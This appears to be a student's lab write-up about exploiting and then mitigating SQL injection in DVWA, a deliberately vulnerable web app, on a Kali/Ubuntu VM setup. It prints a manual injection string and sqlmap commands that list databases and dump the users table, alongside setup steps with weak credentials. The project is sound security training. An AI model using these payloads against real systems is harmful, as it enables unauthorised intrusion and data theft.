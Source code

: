 SQL Injection Detection, Exploitation, and Patching Project
Author: Sean Johnson
 Environment: Kali Linux + Ubuntu VMs
 Target App: DVWA (Damn Vulnerable Web Application)
 Objective: Perform a full offensive and defensive cycle against a SQL Injection vulnerability using real-world tools and methodology.

Overview
This project simulates a real-world vulnerability lifecycle:
Setting up a vulnerable web application (DVWA)


Identifying and exploiting a SQL Injection vulnerability


Automating the attack with sqlmap


Troubleshooting sessions and HTTP behavior


Patching the vulnerability using secure coding practices


Verifying the patch is effective



Lab Environment
Role
System
Tools
Attacker
Kali Linux VM
sqlmap, curl, Firefox
Target
Ubuntu VM
Apache2, MySQL, DVWA (PHP app)


Phase 1: Vulnerable Environment Setup
DVWA Installation
On the Ubuntu VM:
sudo apt update
sudo apt install apache2 mysql-server php libapache2-mod-php php-mysql git
cd /var/www/html
sudo git clone https://github.com/digininja/DVWA.git
cd DVWA/config
sudo cp config.inc.php.dist config.inc.php

Edited config.inc.php:
$_DVWA['db_user'] = 'dvwauser';
$_DVWA['db_password'] = 'password';
$_DVWA['enable_phpids'] = false;
$_DVWA['disable_authentication_tokens'] = true;



MySQL Configuration
CREATE DATABASE dvwa;
CREATE USER 'dvwauser'@'localhost' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwauser'@'localhost';
FLUSH PRIVILEGES;



Final Steps
sudo systemctl restart apache2

Then visited http://<ubuntu-ip>/DVWA/setup.php and clicked "Create / Reset Database".

Phase 2: SQL Injection Detection & Exploitation
Manual Injection
Navigated to:
http://<ubuntu-ip>/DVWA/vulnerabilities/sqli/

Injected:
1' OR '1'='1

Result: Returned a list of users (vulnerable to SQLi)

Automated Exploitation Using sqlmap
Challenge: DVWA ties sessions to IPs — needed to log in from Kali browser and grab a valid PHPSESSID.
Tested session:
curl -IL --cookie "PHPSESSID=abc123; security=low" "http://<ip>/DVWA/vulnerabilities/sqli/?id=1"

Got HTTP/1.1 200 OK
Then ran:
sqlmap -u "http://<ip>/DVWA/vulnerabilities/sqli/?id=1" \
--cookie="PHPSESSID=abc123; security=low" \
--dbs --batch --flush-session

Output:
[*] dvwa
[*] information_schema

Then dumped users:
sqlmap -u "http://<ip>/DVWA/vulnerabilities/sqli/?id=1" \
--cookie="PHPSESSID=abc123; security=low" \
-D dvwa -T users --dump --batch --flush-session


Troubleshooting & Debugging Log
Issue
Fix
302 Redirect from DVWA
Ensured valid PHPSESSID by logging in from Kali
You have no declared cookies
Added --cookie header with both session + security
GET parameter Submit does not seem to be injectable
Ensured correct URL and that security level was low
Malformed input to a URL function
Corrected quotes and semicolon formatting in curl and sqlmap commands
sqlmap output not changing
Used --flush-session to force fresh scan


Phase 3: Patching the Vulnerability
Step 1: Elevated DVWA to “High” Security
DVWA → DVWA Security → Set to High → Submit
This updates the underlying PHP code to use prepared statements (PDO::prepare + bindParam), which prevents injection.

Step 2: Re-Test Injection
Manual input of 1' OR '1'='1 returned no data


sqlmap test returned:

 [WARNING] all tested parameters do not appear to be injectable.



Outcome
Phase
Result
Environment Setup
Success
SQL Injection (manual)
Confirmed vulnerability
sqlmap Exploitation
Data exfiltration completed
Patch via DVWA security
Effective — injection blocked
Re-test & Validation
Confirmed vulnerability resolved


Key Skills Demonstrated
Web app vulnerability analysis


Real-world penetration testing workflow


SQL injection attack methods and mitigation


Session hijacking and curl/http debugging


Use of automated tools (sqlmap)


Patch validation and secure coding awareness
